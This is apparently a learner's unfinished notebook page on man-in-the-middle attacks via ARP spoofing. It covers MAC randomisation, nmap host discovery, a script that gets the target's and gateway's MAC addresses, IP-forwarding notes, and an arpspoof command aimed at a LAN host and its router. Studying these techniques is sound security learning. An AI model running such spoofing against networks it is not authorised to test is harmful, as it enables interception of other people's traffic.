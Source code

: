 # TODO - Man in the Middle with ARP spoofing

Welcome again :D&#x20;

Im actually pleased of myself because Im explaining to me and Im actually understanding something LOL

## Recap

### change the MAC

```
sudo macchanger -r eth0 
```

### reverse DNS request to get all the hostname

and find the target

```bash
nmap -sL 192.168.1.0/24
# -sL     reverse DNS resolution (send no packet to the host, 
                only to the DNS server probably)
```

### scan all your LAN

```bash
#! /bin/bash

echo "change your MAC =D"

ip=$(hostname -I | awk '{print $1}')
ip="${ip##*( )}"
ip_selected=()

if [[ "$ip" == *"$192"* ]]; then
    ip_selected=192.168.0.0/16
elif [[ "$ip" == *"$172"* ]]; then
    ip_selected=172.16.0.0/12
elif [[ "$ip" == *"$10"* ]]; then
    ip_selected=10.0.0.0/8
fi

# echo "$ip_selected"
nmap -sL "$ip_selected" 2>&1 | tee | grep --line-buffered -e \( | awk -Ffor '{print $2}'
```

### check if host is alive

{% embed url="https://security.stackexchange.com/questions/36198/how-to-find-live-hosts-on-my-network" %}

```bash
nmap -sn 192.168.1.68

# -sn     disable port scan
# -sn is the same as -sP (Ping scan)
# this command is not 100% reliable, it is reliable enough though
```

{% embed url="https://unix.stackexchange.com/questions/87935/nmap-sn-scan-or-no-scan" %}

## Get MAC addrs

A script could be useful.

```
./basic_mitm 192.168.1.68 192.168.1.1
```

```
-n     no DNS resolution 
-sP    skip port scan
```

```bash
#!/bin/bash

echo "$1"
echo "$2"

mac1=$(sudo nmap -nsP "$1" | grep MAC | awk -F\  ' { print $3 } ' )
mac2=$(sudo nmap -nsP "$2" | grep MAC | awk -F\  ' { print $3 } ' )

echo "$mac1"
echo "$mac2"
```

## Packet redirect

Now a method is needed to be able to not block the connection of the target host with the router.

<details>

<summary>How can I forward using MAC addrs, or IP?</summary>

* _bridge_ command from iproute2 package
* iptables mac command
* ebtables

</details>

### Let's think

There are 3 actor:

1. `target_host : 192.168.1.65`
2. `mitm_host : 192.168.1.100`
3. `default_gateway : 192.168.1.1`

**After the ARP spoof**:

1. `target_host` send packets to `192.168.1.1` but using `mitm_mac`
2. `mitm_host` get packets from `192.168.1.65` going to `192.168.1.1`
3. so `mitm_host` forwards packets to the `default_gateway`&#x20;
4. the `default_gateway` thinks that `192.168.1.65` is the `mitm_host` because that IP is registered (in his arp table) with the `mitm_mac`
5. so `mitm_host` now receives packets from `192.168.1.1` going to `192.168.1.65`

So, this should work:

```
sysctl -w net.ipv4.ip_forward=1
```

But doesn't.

{% hint style="warning" %}
This because `mitm_host` IP is `192.168.1.100` so every packets coming from `target_host` to IP `192.168.1.65` is rejected by default.\
\
Simply `mitm_host` receives packets going to `192.168.1.65 and says "these are not my packets because I am 192.168.1.100" and then rejects theme.`
{% endhint %}

## [iptables](todo-iptables.md)

{% hint style="info" %}
iptables command has a "mac" section that could be useful
{% endhint %}

## ARP spoofing

```

sudo arpspoof -i eth0 -t 192.168.1.68 -r 192.168.1.1 
```

## Sources

{% embed url="https://www.cyberciti.biz/tips/iptables-mac-address-filtering.html" %}

{% embed url="https://explainshell.com/explain/1/nmap" %}

{% embed url="https://unix4lyfe.org/darkstat" %}

